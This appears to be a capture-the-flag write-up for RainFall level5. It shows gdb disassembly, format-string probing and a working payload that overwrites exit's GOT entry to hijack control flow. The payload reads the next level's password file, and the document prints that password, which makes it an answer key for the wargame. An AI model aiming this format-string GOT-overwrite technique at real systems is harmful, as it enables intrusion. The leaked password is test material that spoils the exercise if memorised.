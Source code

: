 ret2plt

GOT PLT exploit -> https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got


```
(gdb) set height 30
(gdb) i func
0x080484a4  o
0x080484c2  n
0x08048504  main
```

n func calls prinft then exit
```
0x080484ff <+61>:	call   0x80483d0 <exit@plt>
```


```
level5@RainFall:~$ python -c 'print "AAAA" + " |%p| " * 20 ' | ./level5
AAAA |0x200|  |0xb7fd1ac0|  |0xb7ff37d0|  |0x41414141|

level5@RainFall:~$ python -c 'print "AAAA" + " |%4$x| " ' | ./level5
AAAA |41414141|
```
```
(gdb) disass 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    *0x8049838
 ```
 "[We’re in the PLT, and we see that we’re performing a jmp, but this is not a typical jmp. This is what a jmp to a function pointer would look like. The processor will dereference the pointer, then jump to resulting address.](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html)"

"Let’s check the dereference and follow the jmp. Note that the pointer is in the .got.plt"

"The PLT resolves actual locations in libc of functions you use and stores them in the GOT"

```
(gdb) x 0x8049838
0x8049838 <exit@got.plt>:	0x080483d6
```



call o from n <===> ovveride exit (0x8049838) of by addr of o (0x080484a4)

(gdb) p 0x080484a4 - 4 = 134513824


 (python -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$n" '; cat) | ./level5
 
 ```
 level5@RainFall:~$ (python -c 'print "\x08\x04\x98\x38"[::-1] + "%134513824d" + "%4$n"'; cat -) | ./level5 > /dev/null
cat /home/user/level6/.pass 1>&2
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
 ```
 
 Rappel:
``` 
(stdin), fd 0
(stdout),fd 1
(stderr),fd 2

pwd 1>&2, the standard output of the pwd command,
which would normally be printed to the terminal,
is instead redirected to the standard error,
and will be printed to the terminal as an error message.
```







